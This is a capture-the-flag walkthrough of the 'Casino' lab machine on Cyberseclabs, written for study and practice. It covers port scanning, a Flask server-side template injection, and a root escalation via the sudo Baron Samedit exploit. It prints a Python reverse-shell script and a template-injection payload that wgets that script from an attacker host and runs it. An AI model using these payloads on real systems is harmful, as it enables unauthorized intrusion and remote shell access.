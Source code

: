 In this walkthrough, we'll go over one of the machines called ***Casino*** from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Casino IP](casinoIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -sC -p- -n 172.31.3.7
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-28 20:57 EDT
Nmap scan report for 172.31.3.7
Host is up (0.023s latency).

PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:5c:51:eb:90:a2:79:74:42:3b:af:8b:64:66:2f:a2 (RSA)
|   256 d5:76:0c:92:ef:e1:83:9e:37:63:46:00:eb:9d:7b:05 (ECDSA)
|_  256 cd:4f:f8:48:9a:c7:38:85:a2:05:9c:3b:44:20:01:8c (ED25519)
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: River - Index
9000/tcp filtered cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.07 seconds

```
It looks like a casino platform is being served on port 80:

![Casino Index Page](casino-index-html.png)

While browsing, on the team page, we can see that one of the team members is a Flask developer:

![Casino Team Page](casino-teams.png)

After seeing this, I can check for a potential SSTI (Server Side Template Injection) vulnerability. I followed the process from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
Now, in the search box we can do the following tests:
![SSTI Steps](casino-SSTI-steps.png)

1. ![Test1](casino-SSTI-test-1.png)

2. ![Test2](casino-SSTI-test-2.png)

3. ![Test3](casino-SSTI-test-3.png)

4. ![Test4](casino-SSTI-id.png)

5. ![Test5](casino-SSTI-passwd.png)

6. ![Test6](casino-SSTI-ls.png)

7. ![Test7](casino-SSTI-python3.png)
    
From, our strategy could be creating a Python file with a reverse shell and upload it to the server, then run it within the same script. The Python file looks like this and we save it as ***revshell.txt***:
```python
#!/usr/bin/python3

import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("YourIPAddress", 5555)) # Don't forget to put your IP Address here.
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Let's start a Python server to host this file with `sudo python3 -m http.server 80`
Now, by using the following script we can upload and run the Python file `{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('wget http://10.10.0.18/revshell.txt -O /tmp/revshell.py;python3 /tmp/revshell.py').read() }}`

![Casino Foothold](casino-SSTI-revshell.png)

In terms of the privilege escalation, I look at the sudo version and OS distribution:

![Casino OS/Sudo Version](casino-OS-release.png)

At this point, we can check if this machine is vulnerable to ***CVE-2021-3156 (Sudo Baron Samedit)*** vulnerability. We can use the following repo [Sudo Baron Samedit](https://github.com/worawit/CVE-2021-3156)
From this repo, we can use ***exploit_nss.py*** to see if we can get a root shell:

![Casino Root](casino-root.png)

And we successfully gain the root level privileges.
I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
